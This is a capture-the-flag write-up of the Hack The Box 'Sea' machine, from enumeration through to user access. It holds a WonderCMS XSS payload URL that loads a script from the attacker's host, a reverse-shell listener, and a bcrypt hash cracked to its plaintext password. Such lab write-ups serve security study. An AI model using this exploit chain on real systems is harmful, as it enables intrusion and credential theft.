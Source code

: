 ```yaml
---
title: "Sea machine HTB"
date: 1337-01-04 00:00:00 
categories: [Hack The Box,Notes]
tags: [HTB,CTFs,OSCP]
---
```

![alt text](../pics/Sea.png)

# Enumeration
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ nmap -sVC 10.10.11.28 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-17 05:23 EEST
Nmap scan report for 10.10.11.28
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: sea.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.73 seconds
```
Okay now we see only ssh and http so lets try to access the website from the browser \
We got this cool looking site 
![alt text](../pics/image-2.png)
if we checked with wappalyzer we will find it was wrote using PHP
![alt text](../pics/image-3.png) \
We also found contact.php page 
![](../pics/image-4.png)
Let's try to dir brute force using gobuster
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ gobuster dir -u http://sea.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,asp,aspx,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sea.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3650]
/0                    (Status: 200) [Size: 3650]
/themes               (Status: 301) [Size: 230] [--> http://sea.htb/themes/]
/data                 (Status: 301) [Size: 228] [--> http://sea.htb/data/]
/plugins              (Status: 301) [Size: 231] [--> http://sea.htb/plugins/]
/messages             (Status: 301) [Size: 232] [--> http://sea.htb/messages/]
/404                  (Status: 200) [Size: 3341]
```
After checking these pages all of them are forbidden and nothing useful :
![alt text](../pics/image-5.png)
okay let's try to brute force on themes dir 
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ gobuster dir -u http://sea.htb/themes/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,asp,aspx,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sea.htb/themes/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              aspx,html,txt,asp
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3650]
/404                  (Status: 200) [Size: 3341]
/%20                  (Status: 403) [Size: 199]
/%20.asp              (Status: 403) [Size: 199]
/%20.aspx             (Status: 403) [Size: 199]
/%20.html             (Status: 403) [Size: 199]
/%20.txt              (Status: 403) [Size: 199]
/bike                 (Status: 301) [Size: 235] [--> http://sea.htb/themes/bike/]
```
and here we found /bike/ but after checking it, it was also forbidden so lets brute for this path again /bike/ but let's use different tool this time like `feroxbuster` since i just downloaded it and new to it xD
```bash
┌──(kareem㉿Kali)-[~/sea]
└─$ feroxbuster --url http://sea.htb/themes/bike/
                                                                                                                                           
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://sea.htb/themes/bike/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       84l      209w     3341c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       20w      199c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       20w      239c http://sea.htb/themes/bike/img => http://sea.htb/themes/bike/img/
301      GET        7l       20w      239c http://sea.htb/themes/bike/css => http://sea.htb/themes/bike/css/
200      GET        1l        1w        6c http://sea.htb/themes/bike/version
200      GET       21l      168w     1067c http://sea.htb/themes/bike/LICENSE
200      GET        1l        9w       66c http://sea.htb/themes/bike/summary
[####################] - 4m     90010/90010   0s      found:5       errors:803    
[####################] - 4m     30000/30000   129/s   http://sea.htb/themes/bike/ 
[####################] - 4m     30000/30000   129/s   http://sea.htb/themes/bike/img/ 
[####################] - 4m     30000/30000   130/s   http://sea.htb/themes/bike/css/ 
```
oh we got `/version`,`/summary`,`/license`and `css/`, Let's check them all
![alt text](../pics/image-5%20copy.png)
Lets google really quickly what is 
`turboblack`
![alt text](../pics/image-6.png)
Okay the site is running cms called `wondercms`
Now We can do something like this 
![alt text](../pics/image-7.png)
Keep in mind the version we got is `3.2.0`
Then we found this script 
![alt text](../pics/image-8.png)
Lets git clone it and use it 
```bash
┌──(kareem㉿Kali)-[~/sea/CVE-2023-41425-wonderCMS_RCE]
└─$ python CVE-2023-41425.py -rhost http://sea.htb/loginURL -lhost 10.10.14.18 -lport 4444 -sport 8000
[+] Set up a nc listener: nc -lnvp 4444
[+] Send the xss URL to the victim: 
http://sea.htb/loginURL/index.php?page=loginURL?"></form><script+src="http://10.10.14.18:8000/xss.js"></script><form+action="
[+] Serving at http://10.10.14.18:8000
```
lets send this link the contact form we saw early on at `contact.php`
![alt text](../pics/image-9.png)
then we got this 
![alt text](../pics/image-10.png)
which is mean we got RCE lets mess with the shell we got 
![alt text](../pics/image-11.png)
okay we can read the flag let's try to gather some other informations, Lets check the website files 
```json
www-data@sea:/var/www/sea/data$ cat database.js
cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2025\/06\/17 03:19:58": "127.0.0.1",
            "2024\/07\/31 15:17:10": "127.0.0.1",
            "2024\/07\/31 15:15:10": "127.0.0.1",
            "2024\/07\/31 15:14:10": "127.0.0.1"
        },
        "lastModulesSync": "2025\/06\/17",
        "customModules": {
            "themes": {},
            "plugins": {}
        },
        "menuItems": {
            "0": {
                "name": "Home",
                "slug": "home",
                "visibility": "show",
                "subpages": {}
            },
            "1": {
                "name": "How to participate",
                "slug": "how-to-participate",
                "visibility": "show",
                "subpages": {}
            }
```
we got this password :
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`
this is bcrypt hash lets try to break it using hashcat
![alt text](../pics/image-12.png)
```bash
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Tue Jun 17 06:34:26 2025 (20 secs)
Time.Estimated...: Tue Jun 17 06:34:46 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      171 H/s (5.89ms) @ Accel:12 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3168/14344385 (0.02%)
Rejected.........: 0/3168 (0.00%)
Restore.Point....: 3024/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: iamcool -> heaven1
Hardware.Mon.#1..: Util: 80%

Started: Tue Jun 17 06:34:21 2025
Stopped: Tue Jun 17 06:34:47 2025
```
and we break it now we need to find a user who is using this password to login with his creds
Let's try to login using `geo` as username and try to login using `amay`
```bash
┌──(kareem㉿Kali)-[~/sea/CVE-2023-41425-wonderCMS_RCE]
└─$ ssh amay@sea.htb      
The authenticity of host 'sea.htb (10.10.11.28)' can't be established.
ED25519 key fingerprint is SHA256:xC5wFVdcixOCmr5pOw8Tm4AajGSMT3j5Q4wL6/ZQg7A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sea.htb' (ED25519) to the list of known hosts.
amay@sea.htb's password: 
Last login: Mon Aug  5 07:16:49 2024 from 10.10.14.40
```
we are in babyyy now i think we got the user flag let's try to get root

